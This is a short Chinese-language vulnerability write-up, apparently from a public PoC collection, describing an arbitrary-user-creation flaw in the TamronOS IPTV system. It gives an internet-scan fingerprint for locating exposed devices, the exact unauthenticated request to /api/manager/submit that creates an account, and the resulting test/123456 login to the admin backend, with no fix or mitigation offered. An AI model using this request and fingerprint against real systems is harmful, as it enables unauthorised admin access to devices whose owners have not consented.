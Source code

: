 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](images/202202101926166.png)



## 漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](images/202202101926524.png)



```plain
user: test
pass: 123456
```



![](images/202202101926288.png)